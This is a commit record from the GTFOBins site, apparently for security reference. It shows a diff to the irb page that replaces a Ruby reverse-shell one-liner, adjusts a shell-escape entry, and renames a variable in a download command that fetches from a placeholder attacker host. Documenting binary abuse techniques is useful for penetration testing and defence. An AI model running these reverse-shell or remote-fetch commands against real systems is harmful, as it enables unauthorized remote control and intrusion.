

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/irb.md, in a window 1280 px wide. Shown: the whole page at 83% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 1322 px from its top, so only the background shows below that.

Commit message:
fixed reverse shell

```diff
--- a/_gtfobins/irb.md
+++ b/_gtfobins/irb.md
@@ -1,9 +1,7 @@
 ---
 functions:
   shell:
-    - description: |
-        `irb` lets you execute ruby commands as well as shell commands with `exec`.
-      code: |
+    - code: |
         irb
         exec '/bin/bash'
   reverse-shell:
@@ -12,7 +10,7 @@ functions:
         export RHOST='127.0.0.1'
         export RPORT=9000
         irb
-        require 'socket'; s= Socket.new 2,1; s.connect Socket.sockaddr_in ENV['RPORT'], ENV['RHOST']; [0,1,2].each { |fd| syscall 33, s.fileno, fd }; exec '/bin/sh -i'
+        require 'socket'; exit if fork;c=TCPSocket.new(ENV["RHOST"],ENV["RPORT"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read} end
   file-upload:
     - description: Serve files in the local folder running an HTTP server on port 8080.
       code: |
@@ -22,7 +20,7 @@ functions:
     - description: Fetch a remote file via an HTTP GET request and store it in `PWD`.
       code: |
         export URL=http://attacker.com/file_to_get
-        export FILE=file_name
+        export FILE=file_to_save
         irb
         require 'open-uri'; download = open(ENV['URL']); IO.copy_stream(download, ENV['FILE'])
   sudo:
```
